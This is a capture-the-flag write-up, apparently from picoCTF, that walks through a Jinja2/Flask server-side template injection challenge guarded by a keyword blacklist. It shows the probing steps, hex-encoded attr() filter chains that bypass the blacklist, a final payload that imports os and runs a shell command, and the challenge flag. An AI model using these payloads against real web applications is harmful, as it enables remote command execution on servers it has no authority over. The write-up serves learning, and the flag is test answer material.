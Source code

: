 ## Description:
**I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)**

## Challenge Overview 🎯
Got an SSTI challenge with heavy input sanitization. When I tried basic payloads like:
```bash
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```
I got: Stop trying to break me >:(\
Clearly there was some serious filtering going on!

## Initial Testing 🧪
**Step 1: Confirm SSTI**
```bash
{{7*7}}
→ 49
```
Great! Template injection confirmed. ✅\
**Step 2: Map the Blacklist**\
Tested individual components:
```bash
{{config}} → Works, returns config data ✅
{{__}} → Blank page ❌
{{os}} → Blank page ❌  
{{class}} → Blank page ❌
{{globals}} → Blank page ❌
{{import}} → Blank page ❌
```
So keywords like __, os, class, globals, import were blacklisted.

## Bypass Attempt #1: String Construction 💥
Tried various encoding methods:
```bash
{{config["__cl"+"ass__"]}} → Break message ❌
{{config["\x5f\x5fclass\x5f\x5f"]}} → Break message ❌
```
But found that attr() filter with hex encoding worked:
```bash
{{config|attr("\x5f\x5fclass\x5f\x5f")}} → Works! ✅
```

## Building the Chain Step by Step 🔗
**Step 1: Access Class Methods**
```bash
{{config|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5finit\x5f\x5f")}} → Works ✅
```
**Step 2: Access Globals**
```bash
{{config|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")}} → Works ✅
```
**Step 3: Try Direct Module Access**
```bash
{{config|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")["\x6f\x73"]}} → Break message! ❌
```
Even hex-encoded os was blocked! 😤

## The Breakthrough Moment 💡
After trying tons of different approaches (subprocess, sys, builtins, MRO, etc.), I realized I needed to use a different object and access method.\
**The Key Insight**\
Instead of config, I switched to request and used application to access Flask's globals, then used __getitem__ instead of direct bracket notation!

## Final Working Payload 🚀
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
**Payload Breakdown:**\
● request|attr('application') - Access Flask application object\
● |attr('\x5f\x5fglobals\x5f\x5f') - Get globals (hex: __globals__)\
● |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f') - Get builtins using __getitem__ method\
● |attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f') - Get import function\
● ('os') - Import os module\
● |attr('popen')('id')|attr('read')() - Execute command and read output\

**Final command executed: id (change to cat flag for the actual flag!)**
## 🚩Flag: picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}

